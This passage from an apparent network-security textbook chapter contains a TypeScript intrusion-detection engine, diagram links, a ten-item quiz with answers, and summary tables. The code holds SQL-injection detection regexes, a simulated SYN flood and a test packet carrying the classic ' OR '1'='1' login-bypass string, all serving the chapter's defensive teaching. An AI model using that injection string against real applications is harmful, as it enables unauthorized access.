  sourceIp: string;
  destIp: string;
  sourcePort: number;
  destPort: number;
  protocol: string;
  payload: string;
  flags: string[];
}

interface IDSRule {
  id: string;
  signature: string;
  severity: 'low' | 'medium' | 'high' | 'critical';
  action: 'alert' | 'block' | 'log';
}

interface Alert {
  ruleId: string;
  signature: string;
  severity: string;
  action: string;
  sourceIp: string;
  destIp: string;
  timestamp: Date;
  description: string;
}

class IDSEngine {
  private rules: IDSRule[];
  private connectionTracker: Map<string, number> = new Map();
  private synCounts: Map<string, number> = new Map();

  constructor(rules: IDSRule[]) {
    this.rules = rules;
  }

  matchRules(packets: Packet[]): Alert[] {
    const alerts: Alert[] = [];

    for (const packet of packets) {
      for (const rule of this.rules) {
        const alert = this.evaluateRule(packet, rule);
        if (alert) {
          alerts.push(alert);
          if (rule.action === 'block') {
            console.log(`[BLOCKED] Packet from ${packet.sourceIp} matched rule ${rule.id}`);
          }
        }
      }
    }
    return alerts;
  }

  private evaluateRule(packet: Packet, rule: IDSRule): Alert | null {
    switch (rule.signature) {
      case 'SYN_FLOOD': {
        if (packet.flags.includes('SYN') && !packet.flags.includes('ACK')) {
          const count = (this.synCounts.get(packet.sourceIp) || 0) + 1;
          this.synCounts.set(packet.sourceIp, count);
          if (count > 100) {
            return {
              ruleId: rule.id,
              signature: rule.signature,
              severity: rule.severity,
              action: rule.action,
              sourceIp: packet.sourceIp,
              destIp: packet.destIp,
              timestamp: new Date(),
              description: `SYN flood suspected: ${count}+ SYNs from ${packet.sourceIp} (threshold: 100)`,
            };
          }
        }
        break;
      }

      case 'PORT_SCAN': {
        const key = `${packet.sourceIp}→${packet.destIp}`;
        const count = (this.connectionTracker.get(key) || 0) + 1;
        this.connectionTracker.set(key, count);
        if (count > 50) {
          return {
            ruleId: rule.id,
            signature: rule.signature,
            severity: rule.severity,
            action: rule.action,
            sourceIp: packet.sourceIp,
            destIp: packet.destIp,
            timestamp: new Date(),
            description: `Port scan detected: ${count} connections from ${packet.sourceIp} to ${packet.destIp}`,
          };
        }
        break;
      }

      case 'SQL_INJECTION': {
        const sqlPatterns = [
          /(\bUNION\b.*\bSELECT\b)/i,
          /(\bSELECT\b.*\bFROM\b)/i,
          /(\bDROP\b.*\bTABLE\b)/i,
          /('|--|\bOR\b.*=.*\bOR\b)/i,
          /(\bINSERT\b.*\bINTO\b)/i,
          /(\bEXEC\b|\bXP_\b)/i,
          /(\bWAITFOR\b.*\bDELAY\b)/i,
          /('.+')/,
        ];
        for (const pattern of sqlPatterns) {
          if (pattern.test(packet.payload)) {
            return {
              ruleId: rule.id,
              signature: rule.signature,
              severity: rule.severity,
              action: rule.action,
              sourceIp: packet.sourceIp,
              destIp: packet.destIp,
              timestamp: new Date(),
              description: `SQL injection signature matched in payload from ${packet.sourceIp}: ${pattern}`,
            };
          }
        }
        break;
      }
    }

    return null;
  }
}

// Example usage
const rules: IDSRule[] = [
  { id: 'R001', signature: 'SYN_FLOOD', severity: 'critical', action: 'block' },
  { id: 'R002', signature: 'PORT_SCAN', severity: 'high', action: 'alert' },
  { id: 'R003', signature: 'SQL_INJECTION', severity: 'critical', action: 'block' },
];

const engine = new IDSEngine(rules);

const testPackets: Packet[] = [
  // SYN flood simulation: 101 SYN packets from same source
  ...Array.from({ length: 101 }, (_, i) => ({
    sourceIp: '10.0.0.5',
    destIp: '192.168.1.1',
    sourcePort: 40000 + i,
    destPort: 80,
    protocol: 'TCP',
    payload: '',
    flags: ['SYN'],
  })),
  // SQL injection attempt
  {
    sourceIp: '10.0.0.99',
    destIp: '192.168.1.10',
    sourcePort: 54321,
    destPort: 443,
    protocol: 'TCP',
    payload: "SELECT * FROM users WHERE username = 'admin' OR '1'='1'",
    flags: ['PSH', 'ACK'],
  },
];

const alerts = engine.matchRules(testPackets);
console.log(`Total alerts generated: ${alerts.length}`);
alerts.forEach(a => console.log(`  [${a.severity}] ${a.description} → action: ${a.action}`));
```

---

## Mermaid Diagrams

### 1. Firewall Architecture — DMZ with Layered Defense

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-architecture-dmz-with-layered-defense-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-architecture-dmz-with-layered-defense-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-architecture-dmz-with-layered-defense-sticky.svg" target="_blank" rel="noopener">
  
</a>


The diagram below illustrates a typical enterprise firewall architecture with a perimeter firewall, DMZ segment, internal firewall, and management network. Traffic flows from the external internet through multiple inspection layers before reaching sensitive internal resources.



### 2. VPN Tunnel Establishment — IPSec IKEv1 Main Mode

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-vpn-tunnel-establishment-ipsec-ikev1-main-mode-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-vpn-tunnel-establishment-ipsec-ikev1-main-mode-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-vpn-tunnel-establishment-ipsec-ikev1-main-mode-sticky.svg" target="_blank" rel="noopener">
  
</a>


This sequence diagram details the two-phase IPSec tunnel establishment process. Phase 1 (Main Mode) sets up a secure ISAKMP control channel using Diffie-Hellman key exchange. Phase 2 (Quick Mode) negotiates the actual IPSec security associations for data protection.



---

## Chapter Quiz

Test your understanding of network security concepts covered in this chapter.

| # | Question | A | B | C | D | Answer |
|---|----------|---|---|---|---|--------|
| 1 | Which firewall type maintains a state table tracking TCP handshake states and only allows packets belonging to established connections? | Packet filter firewall | Stateful firewall | Proxy firewall | Web application firewall (WAF) | B |
| 2 | What is the primary functional difference between an IDS and an IPS? | IDS is passive (monitors and alerts), IPS is inline (can actively block) | IDS is faster than IPS | IPS only works at Layer 7 | IDS requires signatures, IPS uses anomaly detection | A |
| 3 | In a DMZ network architecture, publicly accessible servers should be placed: | On the internal trusted network behind a single firewall | In a separate network segment isolated between two firewalls | On the same broadcast domain as client workstations | Directly on the internet with host-based firewalls only | B |
| 4 | Which IDS detection method builds a statistical baseline of normal traffic and flags deviations? | Signature-based detection | Anomaly-based detection | Stateful protocol analysis | Heuristic analysis | B |
| 5 | In IPSec VPN, what is the purpose of IKE Phase 1? | Establish the IPSec SA for encrypting user data | Establish a secure ISAKMP control channel (authenticated DH key exchange) | Authenticate individual users via RADIUS | Negotiate compression algorithms | B |
| 6 | Which wireless security standard replaces WPA2's PSK with Simultaneous Authentication of Equals (SAE), providing forward secrecy? | WEP | WPA2-TKIP | WPA3 | 802.11i | C |
| 7 | A SYN flood attack exploits which aspect of the TCP protocol? | The three-way handshake — the server allocates resources before the handshake completes | Window size negotiation consuming excessive memory | Sequence number randomization delays processing | Congestion control algorithm retransmission timers | A |
| 8 | Which attack involves an attacker sending forged ARP messages to associate their MAC address with a legitimate IP address? | DNS cache poisoning | ARP spoofing (ARP cache poisoning) | DHCP starvation | MAC flooding (CAM table overflow) | B |
| 9 | Network segmentation using VLANs primarily provides: | Encryption of inter-VLAN traffic | Logical isolation of broadcast domains at Layer 2 | Automatic load balancing between subnets | Transparent failover for critical network paths | B |
| 10 | Which switch security feature validates ARP packets against a trusted DHCP binding database to prevent ARP spoofing? | Port security with sticky MAC | Dynamic ARP Inspection (DAI) | VLAN trunking (802.1Q) | Spanning Tree Protocol (STP) BPDU Guard | B |

---

## Practical Takeaways

| Takeaway | Application |
|----------|-------------|
| Layered Firewall Architecture | Deploy stateful firewall at perimeter + NGFW for internal segmentation + WAF for web applications |
| IDS/IPS with Hybrid Detection | Use signature-based rules for known threats and anomaly-based detection for zero-day threats — Suricata for modern deployments |
| VPN for Secure Remote Access | Use WireGuard for performance-critical tunnels, IPsec IKEv2 for enterprise site-to-site, OpenVPN for legacy compatibility |
| Network Segmentation (VLANs + DMZ + Micro-segmentation) | Place public servers in DMZ, isolate IoT on separate VLANs, use Kubernetes Network Policies for micro-segmentation |
| Protocol Security (DNSSEC, DHCP Snooping, BGP RPKI, SNMPv3) | Harden DNS with DNSSEC, enable DHCP snooping on switches, validate BGP routes with RPKI, use SNMPv3 with auth+privacy |
| Wireless Security (WPA3-Enterprise + 802.1X) | Deploy WPA3 with SAE for home/SMB; use 802.1X/EAP-TLS with certificate authentication for enterprise |
| Zero Trust Networking | Implement identity-aware proxies, micro-segmentation, and continuous verification — remove implicit trust based on network location |

---

## Summary

**Core Security Principles:**
- Defense in depth: no single control is sufficient
- Least privilege: only what is needed for function
- Default deny: block everything, allow explicitly
- Continuous verification: never trust, always verify

**Key Takeaways:**
- Firewalls provide the first line of defense; choose type based on deployment context
- IDS/IPS detects known and unknown threats; signature + anomaly hybrid is most effective
- VPNs encrypt traffic; WireGuard offers modern crypto and performance, IPsec offers enterprise features
- Segment networks to contain breaches → VLANs for basic isolation, micro-segmentation for zero trust
- Secure all protocols (DNS with DNSSEC, DHCP with snooping, BGP with RPKI, SNMPv3)
- Wireless requires enterprise-grade authentication (802.1X/EAP-TLS + WPA3)
- DDoS mitigation requires layered approaches from rate limiting to cloud scrubbing
- Zero Trust is the architectural destination: identity-driven, micro-segmented, encrypted everywhere

**Remember:** Network security is not a product → it is a process of continuous monitoring, assessment, and improvement. The threats evolve daily; your defenses must evolve with them.
